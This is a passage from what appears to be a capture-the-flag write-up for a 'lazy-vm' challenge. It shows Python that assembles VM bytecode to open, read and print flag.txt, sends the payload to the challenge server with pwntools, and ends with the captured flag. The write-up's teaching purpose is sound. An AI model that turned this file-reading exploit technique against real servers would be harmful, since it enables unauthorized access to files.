 ```python
    return payload

payload = encode_message('flag.txt') # Dumps flag.txt into mem starting at 0


#            Set R0 to 2         Set R1 to 0            Execute syscall
payload += b'\x01\x02\x02\x00' + b'\x01\x00\x02\x01' + b'\x08' # $R0 = fd = open("flag.txt")

#           Set R3 to 0x64 and execute syscall
payload += b'\x01\x64\x02\x03i\x08i' # read(fd=0, mem=0, numbytes=64)

#            Set R0 to 1            Set R1 = fd = 1     Use prev args (mem=0, numbytes=0x64) and execute syscall
payload += b'\x01\x01\x02\x00' + b'\x01\x01\x02\x01' + b'\x08' # write(fd = 1, mem=0, numbytes=64) dumps entire memory

p = remote('lazy-vm.chal.idek.team', 1337)
p.send(payload)
p.interactive()
```

Running this we get our flag `idek{Th15_I$_thE_L@Z13$t_vM_i_h4vE_EvEr_5EEN}`

